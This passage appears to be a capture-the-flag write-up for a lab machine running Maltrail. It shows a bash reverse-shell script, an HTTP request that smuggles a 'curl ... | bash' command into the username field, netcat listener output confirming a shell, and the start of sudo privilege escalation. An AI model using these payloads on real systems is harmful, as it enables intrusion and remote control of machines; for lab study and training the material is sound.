 CHATGPT TO THE FRIGGIN RESCUE!!!

for some reason, curl can't handle it. I needed to create a quick reverse shell bash script:

```bash
#!/bin/bash 
bash -i >& /dev/tcp/10.10.14.103/1337 0>&1
```
I then set up a simple python http server to host the file. 
I then sent this request:
```http
POST /l5kkz1z HTTP/1.1
Host: 10.129.14.50:55555
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
Content-Length: 50

username=;`curl 10.10.14.103:4443/shell.sh | bash`
```
This  will curl the code form my `shell.sh` program and then pipe it into bash. I then just need to have a listener waiting:
```
$ nc -lnvp 1337
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::1337
Ncat: Listening on 0.0.0.0:1337
Ncat: Connection from 10.129.14.50.
Ncat: Connection from 10.129.14.50:52554.
bash: cannot set terminal process group (875): Inappropriate ioctl for device
bash: no job control in this shell
puma@sau:/opt/maltrail$ ls /home/puma/user.txt
user.txt
puma@sau:~$ 

```
Woo!! User down. Time for root!

# Escalation
Go for low hanging fruit. Let's see if I can sudo anything...
```
puma@sau:~$ sudo -l
sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
puma@sau:~$ 

```
